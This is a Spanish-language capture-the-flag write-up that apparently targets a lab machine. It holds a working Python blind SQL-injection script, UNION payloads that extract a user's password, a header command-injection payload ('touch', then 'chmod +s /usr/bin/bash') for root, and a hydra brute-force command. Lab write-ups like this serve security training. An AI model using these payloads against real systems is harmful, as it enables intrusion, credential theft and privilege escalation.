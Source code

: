 Realizamos un escaneo con nmap
![[Pasted image 20240621094901.png]]

Accedemos a la web y encontramos un panel de login
![[Pasted image 20240621094945.png|500]]

Ahora creamos un usuario
![[Pasted image 20240621104130.png|300]]
![[Pasted image 20240621103955.png|300]]

Y como vemos nos hemos logueado
![[Pasted image 20240621104220.png]]

Ahora probaremos ha hacer un sql injection
![[Pasted image 20240621104342.png]]

Y como vemos hemos podido acceder con un usuario aleatorio
![[Pasted image 20240621104407.png]]

Ahora intentaremos obtener el nombre de la base de datos, para ello ejecutaremos el siguiente script de python
```Python
import sys
import requests

def sqli(ip):
    symbols = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_-/:$^ '
    tmp = ""

    while True:
        for i in symbols:
            post= {"username":f"' UNION SELECT 1,2,3,4 WHERE database() LIKE BINARY '{tmp+i}%' -- -","password":"doesntmatter"} #u can change this for other prposes
            req = requests.post(f"http://10.10.237.218/index.php", data=post,allow_redirects=False) #address can also be chnaged 
            status_code=req.status_code
            print(f"{i}", end='\r')
            if status_code == 302:
                tmp += i
                print(tmp)
                break
            elif i == " " :
                print("\n[#] Attack compleated B)")
                print(f"DB_NAME: {tmp}")
                exit()


def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <ip>" % sys.argv[0])
        print("(+) Example: %s 192.168.0.1" % sys.argv[0])
        return
    url = sys.argv[1]
    print("(+) Retrieving database..")
    sqli(url)

if __name__ == "__main__":
    main()

```

Y como vemos al ejecutarlo obtenemos el nombre de la base de datos
![[Pasted image 20240621114045.png]]

Ahora sacaremos el nombre de la tabla, para ello modificaremos esta parte del script
```
UNION SELECT 1,2,3,4 FROM information_schema.tables WHERE table_schema = database() AND table_name LIKE BINARY
```
![[Pasted image 20240621121119.png]]

Y ahora volveremos a modificar el parametro para sacar la password de kitty
```
UNION SELECT 1,2,3,4 FROM siteusers WHERE username=\"kitty\" AND password LIKE BINARY
```
![[Pasted image 20240621121355.png]]

Ahora accederemos por ssh a la maquina
![[Pasted image 20240621121500.png]]
![[Pasted image 20240621121515.png]]

![[Pasted image 20240621121810.png]]

Revisando información encontramos las credenciales para acceder a la base de datos con el usuario kitty
![[Pasted image 20240621130058.png]]


En las tareas encontramos una que se ejecuta cada minuto
![[Pasted image 20240621135325.png]]

Revisamos que hay en la carpeta y leemos el script
![[Pasted image 20240621135217.png]]

Continuando revisando encontramos que en el puerto 8080 esta corriendo un servicio
![[Pasted image 20240621135518.png]]

Así que haremos portforwarding para poder conectarnos desde nuestra maquina, para ello abriremos un servidor en nuestra maquina con chisel
![[Pasted image 20240621133321.png]]

Y ahora en la maquina victima ejecutamos lo siguiente
![[Pasted image 20240621133349.png]]

Ahora ya podemos ir al navegador y ver que esta corriendo en ese servidor
![[Pasted image 20240621133421.png|500]]

Ahora capturamos la peticion y añadimos la siguiente linea
```
X-FORWARDED-FOR:;touch /tmp/Poc
```
![[Pasted image 20240621133632.png]]

Si ahora volvemos a la carpeta veremos el fichero Poc con permisos de root
![[Pasted image 20240621134823.png]]

Así que ahora añadiremos la siguiente linea
```
chmod +s /usr/bin/bash
```
![[Pasted image 20240621134906.png]]

Y como vemos en la ultima captura hemos obtenido una sesion como root
![[Pasted image 20240621135019.png]]


--------
Por fuerza bruta podemos obtener la password de admin
```
hydra -l admin -P /home/wolf/rockyou.txt 10.10.237.218 http-post-form '/index.php:username=^USER^&password=^PASS^:Invalid username or password'
```
![[Pasted image 20240621121837.png]]